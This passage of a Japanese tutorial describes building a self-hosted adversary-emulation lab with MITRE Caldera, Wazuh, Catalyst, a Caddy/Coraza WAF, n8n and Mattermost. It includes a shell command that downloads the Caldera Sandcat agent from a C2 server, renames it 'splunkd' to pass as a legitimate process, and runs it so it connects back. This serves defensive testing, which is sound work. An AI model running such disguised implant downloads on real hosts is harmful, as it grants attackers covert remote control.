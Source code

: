 <figure><img src="./images/adversary-emulation-with-caldera-and-wazuh/system_structure.png" class="md:max-w-xl"/></figure>


| Resource | Usage | Hosting Type | Licensing Model |
| - | - | - | - |
| [MITRE Caldera](https://caldera.readthedocs.io/en/latest/index.html) | 攻撃者エミュレーションを自動化する | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [Wazuh](https://documentation.wazuh.com/current/index.html) | サーバーに対する様々な脅威を検知・管理する | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [Catalyst](https://catalyst.security-brewery.com/docs/category/catalyst-handbook/) | セキュリティに関するアラートやインシデントなどをチケット管理する | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [Caddy](https://caddyserver.com/docs/) + [Coraza](https://coraza.io/docs/tutorials/introduction/) | WebサーバーおよびWAF | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [n8n](https://docs.n8n.io/) | ワークフローを実行する | Self Hosting（Docker container on Hetzner Cloud） | Freemium<br />Open Source |
| [Mattermost](https://docs.mattermost.com/) | 脅威情報の通知先 | Self Hosting（Docker container on Hetzner Cloud） | Freemium<br />Open Source |


## 攻撃者エミュレーションの実装

### Calderaエージェントの配置

攻撃者エミュレーションは攻撃対象のホストに配置したCalderaエージェントを介して実行します。
Calderaエージェント（今回はデフォルトエージェントの`Sandcat`を使用）は管理画面の指示に従って以下のコマンドでホストにダウンロードして起動します。

```shell
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" http://[caldera server address]/file/download > splunkd
chmod +x splunkd
./splunkd -server http://[caldera server address] -group red -v
```
